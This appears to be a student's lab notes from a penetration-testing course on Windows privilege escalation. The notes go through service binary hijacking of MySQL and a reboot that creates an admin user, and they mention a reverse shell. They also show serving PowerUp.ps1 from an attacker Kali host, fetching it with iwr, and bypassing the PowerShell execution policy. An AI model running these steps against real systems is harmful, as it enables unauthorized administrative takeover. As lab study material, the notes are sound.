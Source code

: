 `net stop mysql`

Result: ACCESS DENIED 

dave can't stop the service

Checking if service's startup type is set to "Auto."

If it is, we can just reboot the machine. 

`Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.Name -like 'mysql'}`

It is set to "Auto."

To issue a reboot, our user has to have `SeShutdownPrivilege`

Check with

`whoami /priv`

Result:

We do have it (seems unlikely that we wouldn't?)

Rebooting the machine

`shutdown /r /t 0`

Attack worked because dave2 did register as new administrator user

`Get-LocalGroupMember administrators`

User #RunAs to obtain interactive shell or use #msfvenom to create executable file for a reverse shell

To restore the original state of the service, we have to delete our binary **mysqld.exe**, restore the backed up original binary, and restart the system.

[[PowerUp]]
Using #PowerUp to see if it detects this priv esc vector

Copy PowerUp.ps1 to _kali_'s home directory and serve it with #pythonhttpserver 

`cp /usr/share/windows-resources/powersploit/Privesc/PowerUp.ps1 .

`python3 -m http.server 80`

Download #PowerUp with #iwr 

`iwr -uri http://192.168.48.3/PowerUp.ps1 -Outfile PowerUp.ps1`

`powershell -ep bypass`

`. .\PowerUp.ps1`

Display services this user can modify

`Get-ModifiableServiceFile`

PowerUp did identify mysql to be vulnerable.

### DLL Hijacking
